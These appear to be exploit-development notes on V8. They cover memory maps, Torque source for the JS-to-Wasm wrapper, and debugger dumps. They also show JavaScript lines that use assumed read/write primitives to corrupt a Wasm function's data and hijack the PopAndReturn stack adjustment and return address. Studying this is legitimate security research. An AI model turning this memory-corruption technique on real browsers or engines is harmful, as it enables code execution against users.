


# Table of Contents

- [libv8.so mapping](#libv8so-mapping)
- [PopAndReturn](#popandreturn)
   - [Idea 1: overwriting `0x7fffffffd548` return address of JSWasmWrapperHelper](#idea-1-overwriting-0x7fffffffd548-return-address-of-jswasmwrapperhelper)
   - [Idea 2: Understanding Torque](#idea-2-understanding-torque)


# Exploreing

### libv8.so mapping

```js
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
             Start                End Perm     Size Offset File
     0x872c5a04000      0x872c5a06000 rwxp     2000      0 [anon_872c5a04]
     0xcfc50f3e000      0xcfc50f3f000 r--p     1000      0 [anon_cfc50f3e]
    0x170300000000     0x170300001000 rw-p     1000      0 [anon_170300000]
    0x170300001000     0x1703000c0000 ---p    bf000      0 [anon_170300001]
    0x1703000c0000     0x170300100000 rw-p    40000      0 [anon_1703000c0]
    0x170300100000     0x170340000000 ---p 3ff00000      0 [anon_170300100]
    0x284900000000     0x285100000000 ---p 800000000      0 [anon_284900000]
    0x285100000000     0x285100010000 r--p    10000      0 [anon_285100000]
    0x285100010000     0x285100020000 ---p    10000      0 [anon_285100010]
    0x285100020000     0x285100040000 r--p    20000      0 [anon_285100020]
    0x285100040000     0x285100149000 rw-p   109000      0 [anon_285100040]
    0x285100149000     0x285100180000 ---p    37000      0 [anon_285100149]
    0x285100180000     0x28510027e000 r--p    fe000      0 [anon_285100180]
    0x28510027e000     0x285100280000 ---p     2000      0 [anon_28510027e]
    0x285100280000     0x285100400000 rw-p   180000      0 [anon_285100280]
    0x285100400000     0x285200000000 ---p ffc00000      0 [anon_285100400]
    0x285200000000     0x285200100000 rw-p   100000      0 [anon_285200000]
    0x285200100000     0x285400000000 ---p 1fff00000      0 [anon_285200100]
    0x285400000000     0x285440000000 rw-p 40000000      0 [anon_285400000]
    0x285440000000     0x295900000000 ---p 104c0000000      0 [anon_285440000]
    0x555555554000     0x55555558e000 r--p    3a000      0 /home/vult/Desktop/v8/v8/out/debug/d8
    0x55555558e000     0x5555555db000 r-xp    4d000  39000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555db000     0x5555555dd000 r--p     2000  85000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555dd000     0x5555555df000 rw-p     2000  86000 /home/vult/Desktop/v8/v8/out/debug/d8
    0x5555555df000     0x5555556e4000 rw-p   105000      0 [heap]
//...
    0x7fff60000000     0x7fff7f480000 rwxp 1f480000      0 [anon_7fff60000]
    0x7fff7f480000     0x7fff7fff3000 r-xp   b73000 195d000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
 //....
    0x7ffff2f50000     0x7ffff48ab000 r--p  195b000      0 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff48ab000     0x7ffff7e60000 r-xp  35b5000 195a000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7e60000     0x7ffff7ed4000 r--p    74000 4f0e000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ed4000     0x7ffff7ee1000 rw-p     d000 4f81000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ee1000     0x7ffff7ee2000 r--p     1000 4f8e000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7ee2000     0x7ffff7f66000 rw-p    84000 4f8f000 /home/vult/Desktop/v8/v8/out/debug/libv8.so
    0x7ffff7f66000     0x7ffff7fcb000 rw-p    65000      0 [anon_7ffff7f66]
    0x7ffff7fcb000     0x7ffff7fce000 r--p     3000      0 [vvar]
    0x7ffff7fce000     0x7ffff7fcf000 r-xp     1000      0 [vdso]
    0x7ffff7fcf000     0x7ffff7fd0000 r--p     1000      0 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7fd0000     0x7ffff7ff3000 r-xp    23000   1000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ff3000     0x7ffff7ffb000 r--p     8000  24000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000  2c000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000  2d000 /usr/lib/x86_64-linux-gnu/ld-2.31.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000      0 [anon_7ffff7ffe]
    0x7ffffffde000     0x7ffffffff000 rw-p    21000      0 [stack]
0xffffffffff600000 0xffffffffff601000 --xp     1000      0 [vsyscall]

```


### PopAndReturn


```js
// v8/src/builtins/js-to-wasm.tq:699
macro JSToWasmWrapperHelper( // in default namespace
    context: NativeContext, _receiver: JSAny, target: JSFunction,
    arguments: Arguments, promise: constexpr Promise): never {
  const functionData =
      UnsafeCast<WasmExportedFunctionData>(target.shared_function_info.data);

  // The normal return sequence of Torque-generated JavaScript builtins does not
  // consider the case where the caller may push additional "undefined"
  // parameters on the stack, and therefore does not generate code to pop these
  // additional parameters. Here we calculate the actual number of parameters on
  // the stack. This number is the number of actual parameters provided by the
  // caller, which is `arguments.length`, or the number of declared arguments,
  // if not enough actual parameters were provided, i.e.
  // `SharedFunctionInfo::length`.
  let popCount = arguments.length;
  const declaredArgCount =
      Convert<intptr>(Convert<int32>(target.shared_function_info.length));
  if (declaredArgCount > popCount) {
    popCount = declaredArgCount;
  }
  // Also pop the receiver.
  PopAndReturn(popCount + 1, result);
}
/// js code tests
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,0x4141n);
// ====================== gdb ======================================
RAX  0x0
*RBX  0x23dc00000069 ◂— 0x4
*RCX  0x4142
*RDX  0x23dc000202d5 ◂— 0x77ef608402000003
*RDI  0x23dc002dcdb5 ◂— 0xfe0040640000000d /* '\r' */
*RSI  0x9d
*R8   0x4141
*R9   0x32bb00000755 ◂— 0xfc00400200000009 /* '\t' */
*R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
*R11  0x7fffffffd4f0 ◂— 0x0
*R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
*R14  0x23dc00000000 ◂— 0x40940
*R15  0x23dc00000725 ◂— 0xe500000000000005
*RBP  0x7fffffffd660 —▸ 0x7fffffffd688 —▸ 0x7fffffffd700 —▸ 0x7fffffffd890 —▸ 0x7fffffffd920 ◂— ...
*RSP  0x80000001dff0
*RIP  0x7fff7fda5941 ◂— push r10
/// ======================

   0x7fff7fda5931:	mov    eax,DWORD PTR [rbp-0xe8]
   0x7fff7fda5937:	mov    rsp,rbp
   0x7fff7fda593a:	pop    rbp
   0x7fff7fda593b:	pop    r10
   0x7fff7fda593d:	lea    rsp,[rsp+rcx*8]
=> 0x7fff7fda5941:	push   r10
   0x7fff7fda5943:	ret  

// before lea
Thread 1 "d8" hit Breakpoint 1, 0x00007fff7fda593d in ?? ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
 RAX  0x0
*RBX  0x1c6400000069 ◂— 0x4
*RCX  0x101
*RDX  0x1c64000202d5 ◂— 0x77ef608402000003
*RDI  0x1c64002dc785 ◂— 0xfe0040640000000d /* '\r' */
*RSI  0x9d
*R8   0x100
*R9   0xf8b00000721 ◂— 0x6200400200000009 /* '\t' */
*R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
*R11  0x7fffffffd3d0 ◂— 0x0
*R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
*R14  0x1c6400000000 ◂— 0x40940
*R15  0x1c6400000725 ◂— 0xe500000000000005
*RBP  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RSP  0x7fffffffd4c0 —▸ 0x1c64002dc5f5 ◂— 0x2500000ed9002dc7
*RIP  0x7fff7fda593d ◂— lea rsp, [rsp + rcx*8]
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x7fff7fda593d    lea    rsp, [rsp + rcx*8]
   0x7fff7fda5941    push   r10
   0x7fff7fda5943    ret  
//===============================================================
0x7fffffffd548 -> pop rcx
```
### Idea 1: overwriting `0x7fffffffd548` return address of JSWasmWrapperHelper
```js
v8_write64(addrOf(instance.exports.func1)-0x30+0x18,16n);
// 
# Fatal error in ../../src/objects/object-type.cc, line 82
# Type cast failed in CAST(LoadRegister(Register::function_closure())) at ../../src/interpreter/interpreter-assembler.cc:702
  Expected JSFunction but found Smi: 0x11 (17)

```

```js
 call    qword ptr [r13+54A0h] -> builtin_Aborts

0x7fff7f4c041c    0x7ffff48ee41c -> after function 

0x7fff7fea1a77    0x7ffff52cfa77 -> checkObjectType
0x7fff7f4c9309    0x7ffff48f7309 -> call    rcx 

```

CheckObject looks like:
```go
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
──────────────────────────────────────────────────────────────────────────────[ REGISTERS / show-flags off / show-compact-regs off ]───────────────────────────────────────────────────────────────────────────────
*RAX  0x7ffff6033710 (v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)) ◂— push rbp
*RBX  0x7fff7fea1900 ◂— lea rbx, [rip - 7]
*RCX  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RDX  0x225000249889 ◂— 0x661480e1aa000003
*RDI  0x225000299ff9 ◂— 0x250000072500281e
*RSI  0x92
*R8   0x4ae
*R9   0x225000299ff9 ◂— 0x250000072500281e
*R10  0x7fff7fea1a77 ◂— mov qword ptr [r13 + 0x70], 0
*R11  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*R12  0x47400000721 ◂— 0x6200400200000009 /* '\t' */
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
 R14  0x225000000000 ◂— 0x40940
*R15  0x555555634b90 —▸ 0x7fff7fdf4580 ◂— lea rbx, [rip - 7]
*RBP  0x7fffffffd4f0 —▸ 0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 ◂— ...
*RSP  0x7fffffffd4b0 —▸ 0x7fffffffd4b8 ◂— 0x230
*RIP  0x7fff7fea1a75 ◂— call rax
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
 ► 0x7fff7fea1a75    call   rax                           <v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)>
        rdi: 0x225000299ff9 ◂— 0x250000072500281e
        rsi: 0x92
        rdx: 0x225000249889 ◂— 0x661480e1aa000003
        rcx: 0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
// =====================================
 R9   0x49800000721 ◂— 0x6200400200000009 /* '\t' */
 R10  0x7fff7f4c9309 ◂— mov r12, qword ptr [rbp - 0x20]
 R11  0x7fffffffd3d0 ◂— 0x0
 R12  0x7ffff20c1cc0 ◂— 0x0
 R13  0x5555555fd080 —▸ 0x7fff7f482400 ◂— push rbp
 R14  0xdc00000000 ◂— 0x40940
 R15  0xdc00000725 ◂— 0xe500000000000005
 RBP  0x7fffffffd540 —▸ 0x7fffffffd568 —▸ 0x7fffffffd5e0 —▸ 0x7fffffffd770 —▸ 0x7fffffffd800 ◂— ...
*RSP  0x7fffffffd570 —▸ 0x7fff7f4c015f ◂— pop qword ptr [r13 + 0x118]
*RIP  0x7fff7fda5941 ◂— push r10
───────────────────────────────────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]────────────────────────────────────────────────────────────────────────────────────────
   0x7fff7fda593d    lea    rsp, [rsp + rcx*8]
 ► 0x7fff7fda5941    push   r10
   0x7fff7fda5943    ret  
```
CheckObject 
```js
*RAX  0x7ffff6033710 (v8::internal::CheckObjectType(unsigned long, unsigned long, unsigned long)) ◂— push rbp
```


### Idea 2: Understanding Torque

- Torque works:


`v8/src/builtins/js-to-wasm.tq` -> `v8/out/debug/gen/torque-generated/src/builtins/js-to-wasm-tq-csa.cc`


how stack works:


Stacktrace:
```js

0x00007FFFF51D393D: Builtins_JSToWasmWrapper
0x00007FFFF48EE41C: Builtins_JSEntryTrampoline
0x00007FFFF48EE15F: Builtins_JSEntry
0x00007FFFF5847EEC:  v8::internal::`anonymous namespace`::Invoke


Builtins_CEntry_Return1_ArgvOnStack_NoBuiltinExit
Builtins_CallFunction_ReceiverIsNullOrUndefined
Generate_JSEntryTrampolineHelper(..., false)
```

